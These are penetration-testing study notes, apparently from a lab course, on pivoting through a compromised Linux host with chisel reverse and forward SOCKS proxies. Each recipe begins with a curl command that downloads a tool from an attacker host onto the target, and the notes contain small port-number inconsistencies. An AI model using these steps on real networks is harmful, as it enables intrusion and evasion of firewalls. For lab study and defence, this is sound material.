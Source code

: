 # Summary : Which style of pivoting is more suitable will depend entirely on the layout of the network, so we'll have to start with further enumeration before we decide how to proceed. As a general rule, if you have multiple possible entry-points, try to use a Linux/Unix target where possible, as these tend to be easier to pivot from. An outward facing Linux webserver is absolutely ideal.

## Chisel
# Note: the use of R:socks in chisel commands. "R" is prefixed to remotes (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended. 

# reverse SOCKS Proxy with chisel on linux target for rev shells, ( must setup socks5 proxy in proxychains on port 1080). This connects back from a compromised server to a listener waiting on our attacking machine.
1. curl http://ATTACKER/chisel -o chisel && chmod +x chisel
2. ./chisel server -p 1338 --reverse
3. ./chisel client ATTACKER_IP:1338 R:socks

Line 1. (on target) 
Line 2. (as attacker)  start chisel in server mode on our Kali host, and listening on a port that is open for outbound connections in the target firewall
Line 3. (on target)    despite connecting back to port 1337, the actual proxy has been opened on 127.0.0.1:1080. We will be using port 1080 when sending data through the proxy 

# forward SOCKS proxy with chisel on linux target for bind shells ( must setup socks5 proxy in proxychains on port 1080)
1. curl http://ATTACKER/chisel -o chisel && chmod +x chisel
2. /chisel server -p LISTEN_PORT --socks5
3. ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

Line 1. (on target)
Line 2. (on target)
Line 3. (as attacker)  In this command, PROXY_PORT is the port that will be opened for the proxy. For example, ./chisel client 172.16.0.10:8080 1337:socks would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine. 
